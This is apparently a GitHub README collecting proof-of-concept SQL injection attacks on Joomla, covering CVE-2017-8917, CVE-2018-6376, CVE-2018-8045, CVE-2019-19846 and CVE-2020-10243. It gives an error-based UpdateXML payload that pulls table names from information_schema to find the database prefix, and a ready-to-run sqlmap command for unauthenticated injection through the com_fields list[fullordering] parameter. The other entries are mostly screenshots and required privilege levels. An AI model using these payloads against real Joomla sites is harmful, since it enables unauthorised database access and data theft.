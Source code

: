 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917

# Payload to detect prefix table
## Step 1: Get hexa value
*UpdateXML(2, concat(0x3a,(SELECT HEX(MID(TABLE_NAME,1,16)) FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT 1,1), 0x3a), 1)*
## Step 2: Convert hexa to ASCII
+) Linux command: echo "hexa value" | xxd -r -p

+) Link: https://www.rapidtables.com/convert/number/hex-to-ascii.html

# 5. CVE-2017-8917
### User requirement: None
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
# 4. CVE-2018-6376
### User requirement: Manager (Lowest level)
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77607304-73d8b100-6f4c-11ea-9c6b-72a56c55efda.png)

### Second-url:

![image](https://user-images.githubusercontent.com/24661746/77607359-a7b3d680-6f4c-11ea-9f66-78b24b5ee895.png)

## 3. CVE-2018-8045
### User requirement: Administrator
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77608547-25c5ac80-6f50-11ea-9495-b13b00448d1c.png)
## 2. CVE-2019-19846
### User requirement: Super Users
## Detecting:
...Update later-...
## 1. CVE-2020-10243
### User requirement: Administrator
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/78954200-8d115e00-7b05-11ea-8cd1-0d605fff4101.png)

### Second-url:
![image](https://user-images.githubusercontent.com/24661746/78954286-d2ce2680-7b05-11ea-9ffb-ec1263618056.png)

Reference:
1. https://github.com/HoangKien1020/CVE-2020-10243
2. https://xz.aliyun.com/t/6990
3. https://github.com/luckybool1020/CVE-2018-8045
4. https://www.notsosecure.com/analyzing-cve-2018-6376/
5. https://github.com/gottburgm/Exploits/tree/master/CVE-2017-8917
